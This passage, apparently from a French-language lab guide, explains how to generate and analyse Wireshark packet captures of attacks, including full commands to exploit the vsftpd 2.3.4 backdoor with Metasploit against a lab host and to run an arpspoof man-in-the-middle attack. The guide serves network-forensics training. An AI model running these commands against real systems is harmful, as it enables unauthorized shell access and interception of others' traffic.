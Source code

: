 **Analyse avec Wireshark** :
```
Filtre: tcp.flags.syn == 1 and tcp.flags.ack == 0
Statistiques: Statistics > Endpoints > TCP
```

---

### 5. `metasploit_exploit.pcap` - Exploitation Metasploit

**Scénario** : Capture d'une exploitation vsftpd backdoor avec Metasploit

**Comment créer cette capture** :
```bash
# Capturer sur les deux machines
tcpdump -i eth0 -w metasploit_exploit.pcap

# Lancer l'exploitation
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.20
exploit
```

**Ce que vous trouverez** :
- Connexion FTP initiale
- Trigger de la backdoor (username avec ":)" )
- Ouverture du port 6200
- Commandes shell exécutées

**Analyse avec Wireshark** :
```
Filtre: ftp or tcp.port == 6200
Suivre: Follow TCP Stream
```

---

### 6. `arp_spoofing.pcap` - Attaque ARP Spoofing

**Scénario** : Capture d'une attaque Man-in-the-Middle via ARP spoofing

**Comment créer cette capture** :
```bash
# Capturer le trafic ARP
tcpdump -i eth0 -w arp_spoofing.pcap arp

# Sur Kali, lancer l'attaque
arpspoof -i eth0 -t 192.168.100.20 192.168.100.1
```

**Ce que vous trouverez** :
- Requêtes ARP légitimes
- Requêtes ARP malveillantes (duplicate IP)
- Flux de trafic redirigé
